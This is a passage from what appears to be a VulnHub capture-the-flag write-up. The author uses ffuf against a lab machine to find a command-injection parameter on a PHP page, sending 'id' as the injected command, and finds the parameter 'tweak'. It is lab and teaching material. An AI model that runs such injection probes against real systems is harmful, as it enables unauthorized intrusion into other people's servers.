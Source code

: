 Lets try another bruteforce , now for command injection parameter search →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/ICSS]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://10.0.2.65/index.php?file=ICSSteamshell.php&FUZZ=id' -fs 697 -o ffuf_CI_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.65/index.php?file=ICSSteamshell.php&FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Output file      : ffuf_CI_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response size: 697
________________________________________________

file                    [Status: 200, Size: 667, Words: 205, Lines: 30, Duration: 1ms]
tweak                   [Status: 200, Size: 804, Words: 209, Lines: 35, Duration: 44ms]
:: Progress: [4723/4723] :: Job [1/1] :: 312 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
{: .nolineno}
{: .nolineno}

Now with tweak I got a hit into the system →
